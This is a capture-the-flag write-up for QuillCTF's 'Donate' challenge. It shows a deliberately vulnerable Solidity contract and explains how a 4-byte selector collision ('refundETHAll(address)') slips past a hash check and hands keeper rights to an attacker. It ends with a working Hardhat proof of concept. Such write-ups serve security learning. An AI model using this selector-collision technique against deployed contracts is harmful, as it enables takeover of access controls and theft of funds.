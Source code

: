 # QuillCTF: 12. Donate

> Hey, why not become the Keeper of the Donation?

**Objective of CTF:**

- Initially, you are a hacker. Not the owner or the keeper of Donate contract. The purpose is to call `keeperCheck()` function and get true.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

contract Donate {
  event t1(bytes _sig);
  address payable public keeper;
  address public owner;
  event newDonate(address indexed, uint amount);

  modifier onlyOwner() {
    require(msg.sender == owner || msg.sender == address(this), "You are not Owner");
    _;
  }

  constructor(address _keeper) {
    keeper = payable(_keeper);
    owner = msg.sender;
  }

  function pay() external payable {
    keeper.transfer(msg.value);
    emit newDonate(msg.sender, msg.value);
  }

  function changeKeeper(address _newKeeper) external onlyOwner {
    keeper = payable(_newKeeper);
  }

  function secretFunction(string memory f) external {
    require(keccak256(bytes(f)) != 0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428, "invalid");
    (bool success, ) = address(this).call(abi.encodeWithSignature(f, msg.sender));
    require(success, "call fail");
  }

  function keeperCheck() external view returns (bool) {
    return (msg.sender == keeper);
  }
}
```

## The Solution

Let's go from the target backwards:

- We want to become the keeper, which seems possible via `changeKeeper`.
- To call that, the caller must be the `owner`, or the contract itself!
- The latter case is great, because then it means we can call that from within the contract. There is a way to do that, using the `secretFunction` function.
- We just have to give the correct `f`, which is `changeKeeper(address)` to be able to call that function.

At this point, the puzzle reveals itself: that require statement within `secretFunction` is checking for the exact hash of `changeKeeper(address)`. So, we can't call that as `f`! What should we do? Well, the function selector only cares about first four bytes, and if we can find some function `foobar(address)` that has the same 4 bytes prefix in its hash, we can still call that function.

An immediate way to do this would be to brute-force our way in finding the correct function name, but there is a better option: google it. Indeed, there is a directory of 4-byte hashes called <www.4byte.directory>, and we can search for out target signature there as: <https://www.4byte.directory/signatures/?bytes4_signature=0x09779838>.

We get two results:

- `changeKeeper(address)`, the one we have seen already
- `refundETHAll(address)`, the one we are looking for!

## Proof of Concept

Here is attack demonstration in Hardhat:

```ts
describe('QuillCTF: 12. Donate', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;
  let keeper: SignerWithAddress;

  let contract: Donate;

  before(async () => {
    [owner, attacker, keeper] = await ethers.getSigners();
    contract = await ethers.getContractFactory('Donate', owner).then(f => f.deploy(keeper.address));
    await contract.deployed();
  });

  it('should hack and become the keeper', async () => {
    await contract.connect(attacker).secretFunction('refundETHAll(address)');
  });

  after(async () => {
    // should call keeperCheck
    await contract.keeperCheck();
    expect(await contract.keeper()).to.eq(attacker.address);
  });
});
```
